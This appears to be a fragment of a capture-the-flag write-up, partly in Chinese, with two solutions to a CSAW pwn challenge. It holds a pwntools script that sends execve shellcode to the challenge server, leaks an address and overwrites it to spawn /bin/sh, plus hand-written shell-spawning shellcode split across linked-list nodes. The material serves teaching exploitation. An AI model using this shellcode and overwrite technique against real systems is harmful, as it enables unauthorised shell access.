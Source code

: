 ```
```

### solve3

```pythn
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9005)

sc = """
    mov rdi, rsp
    /* call execve('rsp', 0, 0) */
    push (SYS_execve) /* 0x3b */
    pop rax
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
"""
r.sendline(asm(sc))
r.sendline("x")
r.recvuntil("node.next: ")

leak = int(r.recv(14)[2:], 16)
r.sendline(b"a" * 11 + p64(leak + 0x28) + b"/bin/sh\x00")
r.interactive()
```

### solve4

简单的shellcode:

```
xor rax, rax
mov rdi, 0x68732f6e69622f2f
xor rsi, rsi
push rsi
push rdi
mov rdi, rsp
xor rdx, rdx
mov al, 59
syscall
```

改造, pop crx用于移除`\n`,`jump rsp`跳转到指定地址:

```
; Node 1
mov rdi, 0x68732f6e69622f2f
pop rcx
jmp rsp
; Node 2
xor rsi, rsi
push rsi
push rdi
mov rdi, rsp
xor rdx, rdx
mov al, 59
syscall
```
